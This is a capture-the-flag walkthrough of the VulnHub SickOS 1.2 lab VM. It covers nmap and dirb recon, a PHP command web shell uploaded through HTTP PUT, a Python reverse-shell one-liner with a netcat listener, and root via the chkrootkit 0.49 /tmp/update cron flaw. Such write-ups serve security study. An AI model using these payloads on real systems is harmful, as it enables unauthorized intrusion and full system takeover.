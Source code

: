 # SickOS: 1.2 Walkthrough

![]()

---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/sickos-12,144/](https://www.vulnhub.com/entry/sickos-12,144/)

> Name........: SickOs1.2  
> Objective...: Get /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
>
> This is second in following series from SickOs and is independent of the prior releases, scope of challenge is to gain highest privileges on the system.

---

# Stage 1: Reconnaissance

Tools used:
* nmap
* curl

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00038s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
MAC Address: 08:00:27:B3:DD:CB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.24 seconds

root@kali:~# curl 192.168.1.100
<html>

<img src="blow.jpg">

</html>

// output truncated

<!-- NOTHING IN HERE ///\\\ -->>>>
```

---

# Stage 2: Enumeration

Tools used:
* dirb
* curl

When I did a `dirb http://192.168.1.100`, this is what I got:

```
root@kali:~# dirb http://192.168.1.100

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: xxx xxx xx xx:xx:xx xxxx
URL_BASE: http://192.168.1.100/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.100/ ----
+ http://192.168.1.100/index.php (CODE:200|SIZE:163)                                                                                               
==> DIRECTORY: http://192.168.1.100/test/                                                                                                          
                                                                                                                                                    
---- Entering directory: http://192.168.1.100/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: xxx xxx xx xx:xx:xx xxxx
DOWNLOADED: 4612 - FOUND: 1

```

---

# Stage 3: Exploitation

Tools used:
* curl
* netcat

Tried nikto but it didn't give anything useful. However, `/test` being there, empty and listable bugged me for a while, so I decide to find out if I am able to somehow gain access by uploading a shell there:

```
root@kali:~# curl -X OPTIONS 192.168.1.100/test/ -v
*   Trying 192.168.1.100...
* TCP_NODELAY set
* Connected to 192.168.1.100 (192.168.1.100) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.1.100
> User-Agent: curl/7.57.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Wed, 10 Jan 2018 13:46:14 GMT
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 192.168.1.100 left intact

root@kali:~# curl -X PUT 192.168.1.100/test/foo.php -d "<?php echo vulnerable; ?>"
root@kali:~# curl 192.168.1.100/test/foo.php
vulnerable
```

Turns out, my suspicion was right! `/test` has HTTP PUT enabled with writable access! My simple echo script is able to execute. This means we can upload an entire shell there! Let's upload a rudimentary command shell:

```
root@kali:~# curl -X PUT 192.168.1.100/test/shell.php -d '<?php "<pre>".system($_GET["cmd"])."</pre>"; ?>'

root@kali:~# curl 192.168.1.100/test/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

With that, we can upgrade to a limited shell. Referring to my trusted [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I pick one of the commands to give me my reverse shell:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Except that it did not work.. After some searching around, I found out that some ports like 4444 and 1234 were blocked (possibly through `iptables`). I had to use port 443 as it is a well-known port used for HTTPS. Whatever, let's get on with it shall we?

```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.100] 35413
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"

www-data@ubuntu:/var$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:Ubuntu 12.x,,,:/home/john:/bin/bash
```

Similar to SickOS: 1.1, only `root` and a standard user has bash shells. Unfortunately, this time there isn't any config files for us to infer our passwords from. The firewall also seems to block egress connections, which made downloading additional scripts quite troubling. However, further searching revealed that `chkrootkit` is available on the system, and the version is vulnerable to a privilege escalation!

```
www-data@ubuntu:/var/www/test$ chkrootkit -V
chkrootkit version 0.49
```

The vulnerability occurs in the slapper() function where it reads and executes `/tmp/update` with root privileges, so we can put our python reverse shell code in that file and wait for cron to kick in.

```
// after a couple of minutes of waiting...

root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.100.12] from (UNKNOWN) [192.168.100.15] 48514
/bin/sh: 0: can't access tty; job control turned off
# ls /root
304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
chkrootkit-0.49
newRule
# cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
# cat newRule
# Generated by iptables-save v1.4.12 on Mon Apr 25 22:48:24 2016
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 8080 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 443 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 8080 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 443 -j ACCEPT
COMMIT
# Completed on Mon Apr 25 22:48:24 2016
# 
```

Challenge completed! In hindsight, looking at the `/root/newRule` file reveals only ports 22, 80, 8080, and 443 were allowed to enter.

---

# Lessons Learnt

* Did not expect the occurrence of egress blocking capabilities, just because I had not encountered one of those in my practice for some time
* `chkrootkit` was an unexpected vector of privilege escalation (similar to `nmap --interactive`), therefore I have to keep up to date with various forms of non kernel privilege escalation techniques
* On another note, cronjobs are often ignored due to it being hard to manipulate by the attacker, yet many tasks are ran with `root` privileges. In the event of a cronjob calling a vulnerable program or service, such as this case with `chkrootkit`, it is truly a free golden ticket to the chocolate factory if you manage to spot it